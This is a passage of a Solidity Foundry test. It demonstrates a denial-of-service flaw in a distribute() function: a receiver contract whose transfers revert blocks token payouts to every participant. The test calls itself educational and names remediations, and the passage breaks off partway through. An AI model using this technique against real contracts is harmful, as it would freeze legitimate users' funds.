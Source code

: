 ```solidity
}

/**
 * @title MaliciousReceiver
 * @dev A contract that is designed to simulate a malicious recipient.
 * It does not implement any token receiving logic and, within our DummyToken,
 * transfers to this contract are set to revert.
 */
contract MaliciousReceiver {
    // This contract is intentionally left blank.
    // Its mere address is used by DummyToken to trigger a revert in transfer().
}

/**
 * @title YourTest
 * @dev Foundry test contract that demonstrates a denial-of-service vulnerability in the distribute() function.
 * The test is purely educational and shows how a malicious contract can block distribution by reverting.
 */
contract YourTest is BaseTestWithBalanceLog {
    DummyToken token;
    VulnerableDistributor distributor;
    MaliciousReceiver malicious;
    
    // A normal externally owned account simulated by an address.
    address normalParticipant = address(0xBEEF);

    // setUp ensures the test contract has enough ETH.
    function setUp() public {
        // Fund the test contract with 100 ether.
        vm.deal(address(this), 100 ether);
    }

    /**
     * @dev Test demonstrating the DoS vulnerability in the distribute() function.
     *
     * Educational demonstration plan:
     * 1. Deploy the vulnerable distributor with a valid token balance.
     * 2. Deploy a malicious contract that reverts on receiving tokens.
     * 3. Register both a normal participant and the malicious contract as recipients.
     * 4. Attempt to call distribute(); the malicious contract will trigger a revert,
     *    preventing token distribution to all participants.
     *
     * Remediation strategies include using try/catch blocks or processing transfers individually.
     */
    function testExploit() public balanceLog {
        // Ensure the test contract has at least 10 ETH.
        vm.deal(address(this), 10 ether);
        
        // Deploy the dummy token.
        token = new DummyToken();
        
        // Deploy the vulnerable distributor, passing the address of the token.
        distributor = new VulnerableDistributor(IERC20(address(token)));
        
        // Mint tokens to the distributor so it can distribute tokens.
        // For this test: 2 participants * 1 token each.
        token.mint(address(distributor), 2);
        
        // Deploy the malicious contract.
        malicious = new MaliciousReceiver();
        
```